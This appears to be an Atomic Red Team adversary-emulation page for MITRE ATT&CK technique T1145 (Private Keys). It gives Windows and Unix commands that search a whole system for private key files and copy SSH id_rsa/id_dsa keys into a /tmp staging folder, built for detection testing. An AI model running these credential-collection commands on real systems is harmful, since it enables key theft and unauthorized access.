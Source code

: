 # T1145 - Private Keys
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1145)
<blockquote>Private cryptographic keys and certificates are used for authentication, encryption/decryption, and digital signatures. (Citation: Wikipedia Public Key Crypto)

Adversaries may gather private keys from compromised systems for use in authenticating to [Remote Services](https://attack.mitre.org/techniques/T1021) like SSH or for use in decrypting other collected files such as email. Common key and certificate file extensions include: .key, .pgp, .gpg, .ppk., .p12, .pem, .pfx, .cer, .p7b, .asc. Adversaries may also look in common key directories, such as <code>~/.ssh</code> for SSH keys on * nix-based systems or <code>C:\Users\(username)\.ssh\</code> on Windows.

Private keys should require a password or passphrase for operation, so an adversary may also use [Input Capture](https://attack.mitre.org/techniques/T1056) for keylogging or attempt to [Brute Force](https://attack.mitre.org/techniques/T1110) the passphrase off-line.

Adversary tools have been discovered that search compromised systems for file extensions relating to cryptographic keys and certificates. (Citation: Kaspersky Careto) (Citation: Palo Alto Prince of Persia)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Private Keys](#atomic-test-1---private-keys)

- [Atomic Test #2 - Discover Private SSH Keys](#atomic-test-2---discover-private-ssh-keys)

- [Atomic Test #3 - Copy Private SSH Keys with CP](#atomic-test-3---copy-private-ssh-keys-with-cp)

- [Atomic Test #4 - Copy Private SSH Keys with rsync](#atomic-test-4---copy-private-ssh-keys-with-rsync)


<br/>

## Atomic Test #1 - Private Keys
Find private keys on the Windows file system.
File extensions include: .key, .pgp, .gpg, .ppk., .p12, .pem, pfx, .cer, .p7b, .asc

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
dir c:\ /b /s .key | findstr /e .key
```






<br/>
<br/>

## Atomic Test #2 - Discover Private SSH Keys
Discover private SSH keys on a macOS or Linux system.

**Supported Platforms:** macOS, Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Output file containing locations of SSH key files | path | /tmp/keyfile_locations.txt|


#### Attack Commands: Run with `sh`! 


```sh
find / -name id_rsa >> #{output_file}
find / -name id_dsa >> #{output_file}
```






<br/>
<br/>

## Atomic Test #3 - Copy Private SSH Keys with CP
Copy private SSH keys on a Linux system to a staging folder using the `cp` command.

**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging|


#### Attack Commands: Run with `sh`! 


```sh
mkdir #{output_folder}
find / -name id_rsa -exec cp --parents {} #{output_folder} \;
find / -name id_dsa -exec cp --parents {} #{output_folder} \;
```






<br/>
<br/>

## Atomic Test #4 - Copy Private SSH Keys with rsync
Copy private SSH keys on a Linux or macOS system to a staging folder using the `rsync` command.

**Supported Platforms:** macOS, Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging|


#### Attack Commands: Run with `sh`! 


```sh
mkdir #{output_folder}
find / -name id_rsa -exec rsync -R {} #{output_folder} \;
find / -name id_dsa -exec rsync -R {} #{output_folder} \;
```






<br/>
